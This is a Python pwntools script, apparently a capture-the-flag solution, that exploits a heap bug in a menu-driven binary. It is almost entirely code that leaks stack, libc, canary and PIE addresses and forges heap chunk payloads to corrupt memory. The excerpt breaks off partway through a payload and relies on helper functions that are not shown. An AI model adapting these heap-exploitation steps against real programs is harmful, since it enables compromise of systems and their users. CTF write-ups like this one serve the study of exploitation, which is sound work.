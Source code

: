 ```python

def add_default():
    r.sendlineafter('7. Exit', '6')

def _exit():
    r.sendlineafter('7. Exit', '7')

add_default()
stack = u64(dump_all()[0].ljust(8, '\x00'))
log.info('stack ' + hex(stack))
remove_item(0)

add_empty(1, 4)
remove_item(1)
remove_item(1)
payload  = p64(0) * 3
payload += p64(0x21)
payload += p64(0) * 3
payload += p64(0x21)
payload += p64(stack - 0x1b)
edit_item(0, payload)
add_empty(1, 2)

libc = u64(dump_all()[3].ljust(8, '\x00')) - 0x20830
log.info('libc ' + hex(libc))

remove_item(0)
remove_item(0)
remove_item(0)

payload  = p64(libc + 0x20830)
payload += p64(0)
payload += p64(0x4100)
edit_item(0, payload)

add_empty(2, 4)
remove_item(2)
remove_item(2)
payload  = p64(0) * 7
payload += p64(0x41)
payload += p64(0) * 7
payload += p64(0x41)
payload += p64(stack - 2)
edit_item(1, payload)
add_empty(2, 2)

remove_item(1)
remove_item(1)
remove_item(1)

canary = u64(dump_all()[1][:7].rjust(8, '\x00'))
pie = u64(dump_all()[1][7:].ljust(8, '\x00')) - 0x1380
log.info('canary ' + hex(canary))
log.info('pie ' + hex(pie))

add_empty(3, 4)
remove_item(3)
remove_item(3)
payload  = p64(0) * 13
payload += p64(0x71)
payload += p64(0) * 13
payload += p64(0x71)
payload += p64(pie + 0x20202d)
```